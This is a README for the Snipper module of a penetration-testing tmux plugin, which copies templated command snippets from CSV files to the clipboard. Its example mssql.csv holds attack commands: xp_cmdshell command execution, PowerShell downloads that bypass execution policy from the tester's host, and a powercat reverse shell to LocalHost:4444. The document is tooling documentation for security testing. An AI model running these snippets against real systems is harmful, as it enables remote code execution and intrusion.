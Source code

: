 # Snipper Module

This module is providing an interface to copy snippets to the clipboard which can use various penmux options (not restricted to this module) as paramters, flags, etc. so that you don't have to mess around with boring stuff.

It can be extended by csv files with new snippets as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|SnippetSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets | The search path for csv files providing snippets |
|ClipboardCommand | String | echo '\$\$snippet\$\$' \| xclip -i -sel c | The command used to copy the snippet to the clipboard. The placeholder `'$$snippet$$'` will be replaced by the selected snippet |
|LocalHost | String | 127.0.0.1 | An option used by various commands. Can be seen like metasploit's LHOST |
|LocalPort | Integer | 4444 | An option used by various commands. Can be seen like metasploit's LPORT |

## 3. Adding snippets

You can extend the Snipper with snippets to your like. Either by extending existing csv files or creating new ones. The module is loading any csv file from the 'SnippetSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any snippets, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of snippets, you need to create two files (csv and desc) under any sub folder inside the 'SnippetSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | snippet | variables |
|------|-------------|---------|-----------|
|Unique name which is shown in the selector | A description of what the snippet is doing | The snippet, which is to be copied | Variables that will be asked to change by the user |

As example checkout the mssql group under 'databases/sql'

mssql.desc (this is the description shown by the selection window):
```
Snippets for mssql related things
```
mssql.csv (this is the csv file containing the snippet definitions):
```
name,description,snippet,variables
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecuteCommandPsDownloadTemp,MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
MsSQLExecutePowercatTemp,MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp),EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```

### Breaking it down

Let's check out one line to get an idea on what is going on:
```
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
```
- The first part `MsSQLExecuteCommand` is just the selector name shown to the user.
- The second part `MsSQL comamnd execution via xp_cmdshell` is just the description of what the snippet will do shown to the user.
- The third part `EXEC xp_cmdshell "§§§command§§§"` is the snippet that will be copied to the clipboard. It can use any placeholders that will be replaced like `###SessionDir###`. Further it has it's own replacements like `§§§command§§§` that are variables for the Snipper only and are automatically asked to change by the user.
- The last part `§§§command§whoami§command that should be executed§§§` are the variables used by the snippet. This format is specific to the Snipper and described [here](#snipper_var_format).

### <a name="#snipper_var_format"></a>Snipper variables format

**TODO**

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**
